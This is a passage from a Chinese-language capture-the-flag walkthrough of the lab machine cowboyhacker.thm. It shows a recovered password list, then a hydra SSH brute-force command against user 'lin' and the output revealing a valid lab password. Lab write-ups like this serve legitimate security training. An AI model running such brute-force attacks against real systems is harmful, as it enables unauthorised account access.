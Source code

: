 然后我检查了里面的东西:

```
**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ cat locks.txt    **                    
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ cat task.txt** 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$**
```

我从这些下载中了解到两条重要信息:系统上很可能有一个名为“lin”的用户，我有一个似乎是密码的列表，可以用它来尝试基于密码的身份验证方法。

我将尝试使用 hydra([van Hauser et al . n . d .)](https://github.com/vanhauser-thc/thc-hydra)以用户名`lin`和由`locks.txt`组成的密码列表来暴力破解 SSH 服务:

```
**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ hydra -l lin -P ./locks.txt cowboyhacker.thm ssh -t 10  **                          
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at [redacted]
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 26 login tries (l:1/p:26), ~3 tries per task
[DATA] attacking ssh://cowboyhacker.thm:22/
[22][ssh] host: cowboyhacker.thm   **login: lin**   **password: RedDr4gonSynd1cat3**
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at [redacted]

**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$**
```